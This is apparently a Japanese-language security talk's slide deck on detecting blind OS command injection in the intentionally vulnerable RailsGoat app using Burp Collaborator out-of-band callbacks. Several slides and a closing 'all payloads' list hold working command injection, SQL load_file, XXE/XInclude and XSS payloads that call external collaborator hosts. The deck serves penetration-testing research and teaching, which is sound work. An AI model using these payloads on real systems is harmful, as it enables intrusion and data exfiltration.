







# Super-blind OS Command Injection by Burp Collaborator


***

## $ whois

* Name: Yuji Matsunaga
* Job: Security Engineer
 * Penetration Test
 * Development
* Burp: ★★★★☆
* Blog: http://io.cyberdefense.jp/ (DARK MATTER)
* Drink: 

***

## Burp Collaborator

[blog.portswigger.net/2015/04/introducing-burp-collaborator.html](http://localhost:8000/Burp_Collaborator/Burp_Collaborator.html#super-blind)




***

## Target Vulnerability

app: RailsGoat
vulnerability: [Constantize](http://localhost:8000/rg_constantize/Constantize.html)

指定した文字列のクラスインスタンスが生成されるというもの

https://github.com/OWASP/railsgoat/wiki/Extras:-Constantize

***

## Constantize ATTACK

##### name=Health_n_Stuff.pdf & type=File
```ruby
File.new("Health_n_Stuff.pdf")
```

##### name=|touch testthis.txt & type=Logger
```ruby
Logger.new("|touch testthis.txt")
```

* feedback-based detection => NG
 * ex) cat /etc/passwd
* time-based detection => NG
 * ex) sleep 5

***

## どうやって検出する？

* 外部に通信を発生させて検知することが可能
 * DNS, ICMP, HTTP, ...

```
＿人人人人人人人人人人人人人人人人人人人＿
＞　Burp Collaboratorの出番(｀･ω･´)ゞ　＜
￣Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y￣
```

***

## active scan request



***

## active scan options



***

## scan result



***

## なぜ検知できない？

* 非同期処理には対応できない？
 * レスポンス後のOSコマンド実行は検知できない可能性
* インジェクションに失敗している？
 * 本当にOSコマンドをインジェクションできてない？
 * 検査対象の環境に存在しないOSコマンドを実行している？

```
＿人人人人人人人人人人人人＿
＞　Why Japanese People!?　＜
￣Y^Y^Y^Y^Y^Y^Y^Y^Y^Y^Y￣
```

***

## 非同期処理には対応できない？

```ruby
  def download
   begin
     path = params[:name]
     file = params[:type].constantize.new(path) # <= asynchronous command execution
     sleep 2 # <= sleep 2 seconds
     send_file file, :disposition => 'attachment'
   rescue
     redirect_to user_benefit_forms_path(:user_id => current_user.user_id)
   end
  end
```

##### 結果は変わらず

***

## インジェクションに失敗している？

* Private Burp Collaborator Serverを使って検証

Active Scan中にログが出ない。インジェクションできてなさそう。

```
2016-11-09 07:47:29.246 : Request received: 34E301000001000000000000037777770A676F6F676C656170697303636F6D0000010001
2016-11-09 07:47:29.247 : Request received: 9C5F01000001000000000000037777770A676F6F676C656170697303636F6D0000010001
2016-11-09 07:47:29.247 : Sending response: 34E381050001000000000000037777770A676F6F676C656170697303636F6D0000010001
2016-11-09 07:47:29.248 : Sending response: 9C5F81050001000000000000037777770A676F6F676C656170697303636F6D0000010001
2016-11-09 07:47:29.248 : Request received: 34E301000001000000000000037777770A676F6F676C656170697303636F6D0000010001
```

***

## 無理矢理検知させる

* Active Scan中にcurl乱射

```bash
$ while true; do curl sfbgsxxttq8uek3vxc0x0xfd44a8y5mw9nxc
 .collaborator.burp >/dev/null 2>&1; done
```

***



***

## payloadを確認

$ grep collaborator app_log

（コマンドインジェクション関連のみ抜粋）

```xml
public/docs/Health_n_Stuff.pdf|nslookup
xjkc3784sghp3tqm1jy506ecx33wrsfj29qy.burpcollaborator.net.&

public/docs/Health_n_Stuff.pdf'"`0&nslookup
n2q2mxrub60fmj9ck9hvjwx2gtmmajyal09p.burpcollaborator.net.&`'

public/docs/Health_n_Stuff.pdf&nslookup
cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&'\\"`0&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&`'
```

***

## payloadを確認

```xml
public/docs/Health_n_Stuff.pdf&nslookup
cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&
'\\"`0&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.
burpcollaborator.net.&`'
```

***

## 無理矢理検知させる(2)

1. Active Scanが終了する前に中断
1. appログを確認
1. nslookupで問い合わせているドメイン名に対し、名前解決実行
1. Active Scanを再開

=> OSコマンドインジェクションを検知
=> 非同期処理に対応していることもわかった

***

## base requestを変更（ファイル名を空に）

* pingの実行には成功しているが、time-baseなので検知には至らない
* nslookupコマンドが無い（Dockerで環境を作った）

```
sh: 1: nslookup: not found
i67bkthhjn bsm4l10urv
PING 21 (0.0.0.21): 56 data bytes
ping: sending packet: Invalid argument
sh: 1: PING: not found
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.112 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.037 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.032 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.038 ms
64 bytes from 127.0.0.1: icmp_seq=6 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=7 ttl=64 time=0.040 ms
64 bytes from 127.0.0.1: icmp_seq=8 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_seq=9 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=10 ttl=64 time=0.057 ms
64 bytes from 127.0.0.1: icmp_seq=11 ttl=64 time=0.039 ms
64 bytes from 127.0.0.1: icmp_seq=12 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=13 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=14 ttl=64 time=0.055 ms
64 bytes from 127.0.0.1: icmp_seq=15 ttl=64 time=0.035 ms
64 bytes from 127.0.0.1: icmp_seq=16 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_seq=17 ttl=64 time=0.029 ms
64 bytes from 127.0.0.1: icmp_seq=18 ttl=64 time=0.038 ms
64 bytes from 127.0.0.1: icmp_seq=19 ttl=64 time=0.020 ms
64 bytes from 127.0.0.1: icmp_seq=20 ttl=64 time=0.022 ms
--- 127.0.0.1 ping statistics ---
21 packets transmitted, 21 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.018/0.038/0.112/0.000 ms
```

***

## Achieved !!



***



***

## 実際にこんなパターンある？

##### Background Job Libraries

* Ruby/Rails
 * ActiveJob
* nodejs
 * Kue, Bull Job Manager, ...
* Elixir/Phoenix
 * Exq

伝統的なバッチ処理も

***

## Conclusion

* Burp CollaboratorのSuper-blindな手法によりOS Command Injectionを検知できた
* feedback-based、time-basedでは検知できない脆弱性が実在するので有用な手法
* Active Scanの検知力にはやや疑問が残る
 * append only
 * nslookup only

***

## Conclusion

* Active Scan終了後に発生したリクエストは検知できない
 * 定時バッチ処理や、時間のかかるバックグラウンドタスク処理の脆弱性
 * Burp Collaborator以外に、独自の検知システムを持つとよいかも
* Private Burp Collaborator Serverを検討
 * コンソールにDNSクエリが出力されるので役立つかも
* Burp Collaborator clientを併用するとよいかも

***

### all payloads

```xml
97eorjwggs51r5eypvmhoi2olfr8f13sqie7.burpcollaborator.net/docs/Health_n_Stuff.pdf
http://0defxa27mjbsxwkpvms8u98fr6xzlp9gw6kv.burpcollaborator.net/?public/docs/Health_n_Stuff.pdf
(select load_file('\\\\\\\\tif82370rcgl2ppi0fx1z2d8wz2sqjs7ju9iy.burpcollaborator.net\\\\ylf'))
public/docs/Health_n_Stuff.pdf'+(select load_file('\\\\\\\\adrpxk2hmtb2x6kzvwsiuj8prgx9l0oofb5zu.burpcollaborator.net\\\\zem'))+'
public/docs/Health_n_Stuff.pdf|nslookup xjkc3784sghp3tqm1jy506ecx33wrsfj29qy.burpcollaborator.net.&
public/docs/Health_n_Stuff.pdf'"`0&nslookup n2q2mxrub60fmj9ck9hvjwx2gtmmajyal09p.burpcollaborator.net.&`'
public/docs/Health_n_Stuff.pdf&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&'\\"`0&nslookup cn3r7mcjwvl478u15y2k4lir1i7bv6jx6nuc.burpcollaborator.net.&`'
<whx xmlns="http://a.b/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://a.b/ http://cuaremjj3vs4e811cy9kblpr8ieb2bq2ds1h.burpcollaborator.net/whx.xsd">whx</whx>
<jqh xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://okc34y9vt7ig4krd2azw1xf3yu4nsogf35ru.burpcollaborator.net/foo"/></jqh>
<!DOCTYPE root PUBLIC "-//B/A/EN" "http://tvs8f3k04ctlfp2idfa1c2q89zfs3qrhe72w.burpcollaborator.net">public/docs/Health_n_Stuff.pdf<root>lbew8</root>
<!DOCTYPE \xA7\xA7\xA7 [<!ENTITY % inzjr SYSTEM "http://6mtl6gbdvpky62tv4s1e3fhl0c65u4iv5lta.burpcollaborator.net">%inzjr; ]>public/docs/Health_n_Stuff.pdf
<qhm xmlns="http://a.b/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://a.b/ http://cr7rbmgj0vp4b8y19y6k8lmr5ibbzbn2asyh.burpcollaborator.net/qhm.xsd">qhm</qhm>
<rrd xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://vkja4592tein4rrk2hz314fay14usvgm3cr1.burpcollaborator.net/foo"/></rrd>
<?xml-stylesheet type="text/xml" href="http://jf2yzt4qo2dbzfm8x5urwsaytpzinkbby1mq.burpcollaborator.net"?>public/docs/Health_n_Stuff.pdf
<!DOCTYPE foo [<!ENTITY xxefee1l SYSTEM "http://wwwbg6l35fuogs3leib4d5rba2gv4psgf63v.burpcollaborator.net"> ]>public/docs/Health_n_Stuff.pdf<root>&xxefee1l;</root>
'"><svg/onload=(new(Image)).src='//9jto3j8gssh135qy1vyh0ieoxf38r0ho8byzn\\56burpcollaborator.net'>
javascript:/*</script><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+((new(Image)).src=([]+/\\/waabu6z3jf8oushlsip4r55bo2uvin9b0yqmf\\.burpcollaborator.net/).replace(/\\\\/g,[]))//'>
```